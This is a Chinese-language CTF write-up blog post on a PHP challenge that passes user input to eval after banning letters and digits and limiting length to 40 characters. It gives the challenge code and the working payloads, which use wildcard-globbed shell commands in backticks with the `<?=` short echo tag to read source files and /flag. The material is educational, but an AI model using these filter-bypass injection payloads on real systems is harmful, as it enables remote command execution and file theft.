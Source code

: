 ```yaml
---
layout:     post
title:      ctf-极限利用
subtitle:   ctf
date:       2018-08-18 				# 时间
author:     sh1llc0de					# 作者
catalog: true 						# 是否归档
tags:								#标签
    - CTF
---
```


# ctf_极限利用
>前几天看到安全客上面有一道ctf的文章，然后自己看的一脸蒙蔽，通过一些学习还是学会了。

## 源码
```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

## 分析
* 首先我们传入的值不能有大小写字母和数字
* 其次我们传入的值长度不能大于40

## 思路
  首先hint信息提示我们是要通过getflag函数来获取flag，但是本人实力有限，用了安全客的第二种方法，我们可以不执行getflag函数，因为Linux下的一切都是文件，那不如去构造一个读文件，或者命令执行来读flag，思路确定后开始尝试。

### 取回结果
  原作者是说采用`<?=$_?>`方式来获取，我当时看的反正一脸蒙蔽，在一些大佬的帮助下知道了这个是短标签(原来看到过，记性不好)，<?=也就是等价于<?php echo，当然要使用短标签的话要开启short_open_tag这个选项，这样我们就可以取回结果了。

### 如何构造字母？执行命令？
  原来在p牛的代码审计中的题目看到过可以通过某些值亦或某些值来构造字母，但是还是本人实力的问题。。所以我还是采用了作者的方法，使用通配符来绕过不能是用字母。

### 开始尝试
  首先先尝试一下获取index.php的源码，可以这样构造"?code=$_=`/???/??? /???/???/????/*`;?><?=$_?>",稍微解释一下，通过给$_赋值我们要执行的命令，然后通过php短标签来执行命令并打印。然后屏幕上应该回显了一大堆的乱码，而我们要的源码在最底部。
![](https://s1.ax1x.com/2018/08/18/Pf6FiT.jpg)
	
  知道源码之后我们发现flag.php是读取的/flag的内容的，按我们直接构造呗"?code=$_=`/???/??? /????`;?><?=$_?>"同样的，我们的flag还是在最底部。
![](https://s1.ax1x.com/2018/08/18/Pf6Ez4.jpg)

### 总结
  这到题目十分的灵活，让我知道了许多不知道的内容，同时也感谢大佬们的帮助。
	
### 原文地址:	https://www.anquanke.com/post/id/154284
